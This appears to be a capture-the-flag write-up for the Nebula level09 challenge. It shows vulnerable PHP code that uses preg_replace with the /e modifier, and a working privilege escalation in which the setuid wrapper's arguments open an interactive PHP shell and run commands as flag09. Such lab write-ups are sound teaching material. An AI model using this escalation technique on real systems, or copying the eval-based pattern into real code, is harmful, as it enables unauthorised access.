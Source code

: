 ## Challenge
There’s a C setuid wrapper for some vulnerable PHP code.

## Solution
```php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```
So, `flag09` is a `setuid` running `flag09.php`.
```console
level09@nebula:/home/flag09$ ls -l
total 8
-rwsr-x--- 1 flag09 level09 7240 2011-11-20 21:22 flag09
-rw-r--r-- 1 root   root     491 2011-11-20 21:22 flag09.php
level09@nebula:/home/flag09$ ./flag09
PHP Notice:  Undefined offset: 1 in /home/flag09/flag09.php on line 22
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/flag09/flag09.php on line 13
```
After doing some reading I realized the use of `/e` evaluates (as `PHP`) the replaced string.

During one of my tests trying to exploit this misuse I ran the following:
```console
level09@nebula:/home/flag09$ ./flag09 -h
Usage: php [options] [-f] <file> [--] [args...]
       php [options] -r <code> [--] [args...]
       php [options] [-B <begin_code>] -R <code> [-E <end_code>] [--] [args...]
       php [options] [-B <begin_code>] -F <file> [-E <end_code>] [--] [args...]
       php [options] -- [args...]
       php [options] -a

  -a               Run as interactive shell
  -c <path>|<file> Look for php.ini file in this directory
  -n               No php.ini file will be used
  -d foo[=bar]     Define INI entry foo with value 'bar'
  -e               Generate extended information for debugger/profiler
  -f <file>        Parse and execute <file>.
  -h               This help
  -i               PHP information
  -l               Syntax check only (lint)
  -m               Show compiled in modules
  -r <code>        Run PHP <code> without using script tags <?..?>
  -B <begin_code>  Run PHP <begin_code> before processing input lines
  -R <code>        Run PHP <code> for every input line
  -F <file>        Parse and execute <file> for every input line
  -E <end_code>    Run PHP <end_code> after processing all input lines
  -H               Hide any passed arguments from external tools.
  -s               Output HTML syntax highlighted source.
  -v               Version number
  -w               Output source with stripped comments and whitespace.
  -z <file>        Load Zend extension <file>.

  args...          Arguments passed to script. Use -- args when first argument
                   starts with - or script is read from stdin

  --ini            Show configuration file names

  --rf <name>      Show information about function <name>.
  --rc <name>      Show information about class <name>.
  --re <name>      Show information about extension <name>.
  --ri <name>      Show configuration for extension <name>.
```
Turns out the `setuid` file can be used to feed arguments to the `PHP` interpreter.

A very cool flag we can give it is `-a` which opens an interactive `PHP` shell.

I wonder if we can exploit it to run commands using `system` as `flag09`?
```console
level09@nebula:/home/flag09$ ./flag09 -a
Interactive shell

php > system('id');
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
php > system('getflag');
You have successfully executed getflag on a target account
```
